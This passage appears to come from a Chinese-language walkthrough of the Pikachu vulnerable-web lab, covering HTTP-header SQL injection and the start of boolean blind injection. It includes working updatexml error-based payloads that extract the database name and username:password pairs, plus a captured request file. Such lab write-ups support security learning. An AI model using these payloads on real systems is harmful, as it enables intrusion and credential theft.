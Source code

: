 tips:这里是get传参的，需要url编码

![pikachu46](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu46.png)

## http头注入

![pikachu47](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu47.png)

直接登录账号，可以发现返回的数据包对之前的UA等HTTP头数据进行了纪录

![pikachu48](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu48.png)

重新抓包，尝试在UA处测试注入

![pikachu49](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu49.png)

测试存在SQL注入，字符型单引号`'`

查表名

```sql
' or updatexml(1,concat(0x7e,database()),1) or '
```

![pikachu50](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu50.png)

最后查个数据吧，其他的不查了，都一样

```sql
' or updatexml(1,concat(0x7e,(select group_concat(username,":",password) from users limit 0,1),0x7e),1) or '
```

## 盲注(base on boolian)

搜索不存在的用户例如：hacker

![pikachu51](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu51.png)

提示用户不存在，再搜一个有的：kobe

![pikachu53](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu53.png)

保存抓到的请求包为header.txt如下

```http
GET /vul/sqli/sqli_blind_b.php?name=1&submit=%E6%9F%A5%E8%AF%A2 HTTP/1.1
Host: 172.26.239.122
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.26.239.122/vul/sqli/sqli_blind_b.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=u19vivvv2j26lqb3622ebur90r
Connection: close
```
